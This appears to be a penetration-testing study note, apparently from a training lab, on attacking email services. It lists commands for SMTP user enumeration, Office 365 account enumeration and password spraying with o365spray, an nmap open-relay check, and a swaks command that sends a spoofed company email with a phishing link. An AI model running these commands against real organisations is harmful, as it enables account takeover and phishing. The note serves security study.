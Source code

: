 user enumeration
```shell-session
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

Office 365 enumeration
```shell-session
python3 o365spray.py --validate --domain msplaintext.xyz
```

```shell-session
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz 
```
Credential Brute Forcing
brute pop3 [[3 Exploitation/Brute Force/Hydra]]
can also try o365spray/MailSniper/CredKing
``
```shell-session
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

# Open Relay 
An open relay -> SMTP server that allows unauthenticated email relay
Abuse -> send emails as non-existing users/ spoofing someone else's email

See if it allows open relay
```
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```
Spoof email
```shell-session
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

